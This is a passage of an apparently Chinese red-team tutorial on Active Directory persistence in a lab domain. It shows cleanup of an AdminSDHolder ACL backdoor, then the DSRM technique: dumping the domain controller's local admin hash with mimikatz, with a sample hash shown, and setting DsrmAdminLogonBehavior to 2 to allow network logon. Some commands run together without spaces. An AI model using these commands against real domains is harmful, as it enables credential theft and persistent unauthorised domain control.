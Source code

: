 恢复触发时间

```
reg add hklm\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v AdminSDProtectFrequency/t REG_DWORD /d 120/f
```

取消 jack 用户对 adminSDHolder 的权限

```
Remove-DomainObjectAcl-TargetSearchBase"LDAP://CN=AdminSDHolder,CN=System,DC=redteam,DC=local"-PrincipalIdentity jack -RightsAll-Verbose
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouibv6HFgEibXjjPKFXIKduWSAo6JDfYQyE2DBL7nfwvzFhgYF2ULf1huuBrbY9fpAoYK3Hibbh7L6GHw/640?wx_fmt=png)

0x04 DSRM 凭证
============

每个 DC 内部都有一个本地管理员账户，在该机器上拥有管理员权限。

4.1 获取本地管理员 hash
----------------

```
token::elevatelsadump::sam
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouibv6HFgEibXjjPKFXIKduWSAo6JDfYQyE2DBL7nfwvzFhgYF2ULf1huuBrbY9fpAoYK3Hibbh7L6GHw/640?wx_fmt=png)

得到 hash 为：

```
852a844adfce18f66009b4f14e0a98de
```

4.2 检查是否工作
----------

如果注册表项的值为 0 或者不存在，需要将其设置为 2。

检查 key 是否存在并且获取值：

```
Get-ItemProperty"HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA"-name DsrmAdminLogonBehavior
```

如果不存在则创建值为 2 的键：

```
New-ItemProperty"HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA"-name DsrmAdminLogonBehavior-value 2-PropertyType DWORD
```

如果存在但是不为 2 设置为 2：

```
Set-ItemProperty"HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA"-name DsrmAdminLogonBehavior-value 2
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouibv6HFgEibXjjPKFXIKduWSA1ljNicrUUS5ziaPm6XFoIgFS3DSKDMsVjg3ML2vVMkfjHS662ibDmDz0A/640?wx_fmt=png)
